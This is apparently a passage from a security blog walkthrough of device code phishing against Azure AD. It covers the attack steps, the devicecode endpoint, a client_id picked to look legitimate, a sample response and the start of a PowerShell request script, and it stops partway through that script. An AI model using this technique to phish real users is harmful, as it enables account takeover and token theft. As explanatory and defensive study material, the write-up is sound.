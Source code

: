 The basic idea to utilise device code authentication for phishing is following.

1. An attacker connects to /devicecode endpoint and sends **client_id** and **resource**
2. After receiving **verification_uri** and **user_code**, create an email containing a link to **verification_uri** and **user_code**, and send it to the victim.
3. Victim clicks the link, provides the code and completes the sign in.
4. The attacker receives **access_token** and **refresh_token** and can now mimic the victim.

### 1. Connecting to /devicecode endpoint

The first step is to make a http POST to Azure AD devicecode endpoint:
```
 https://login.microsoftonline.com/common/oauth2/devicecode?api-version=1.0
```
I'm using the following parameters. I chose to use "Microsoft Office" client_id because it looks the most legit app name, and it can be used to access other resources too. 
The chosen resource gives access to AAD Graph API which is used by MSOnline PowerShell module.

Parameter | Value 
---       | ---
client_id | d3590ed6-52b3-4102-aeff-aad2292ab01c 
resource  | https://graph.windows.net

The response is similar to following:
{{< highlight json >}}
{
	"user_code": "CLZ8HAV2L",
	"device_code": "CAQABAAEAAAB2UyzwtQEKR7-rWbgdcBZIGm0IlLxBn23EWIrgw7fkNIKyMdS2xoEg9QAntABbI5ILrinFM2ze8dVKdixlThVWfM8ZPhq9p7uN8tYIuMkfVJ29aUnUBTFsYCmJCsZHkIxtmwdCsIlKpOQij2lJZzphfZX8j0nktDpaHVB0zm-vqATogllBjA-t_ZM2B0cgcjQgAA",
	"verification_url": "https://microsoft.com/devicelogin",
	"expires_in": "900",
	"interval": "5",
	"message": "To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code CLZ8HAV2L to authenticate."
}
{{< /highlight>}}

Parameter        | Description
---              | ---
user_code        | The code a user will enter when requested
device_code      | The device code used to "poll" for authentication result
verification_url | The url the user needs to browse for authentication 
expires_in       | The expiration time in seconds (15 minutes)
interval         | The interval in seconds how often the client should poll for authentication
message          | The pre-formatted message to be show to the user

Here is a script to connect to devicelogin endpoint:
{{< highlight powershell >}}
# Create a body, we'll be using client id of "Microsoft Office"
$body=@{
	"client_id" = "d3590ed6-52b3-4102-aeff-aad2292ab01c"
	"resource" =  "https://graph.windows.net"
}

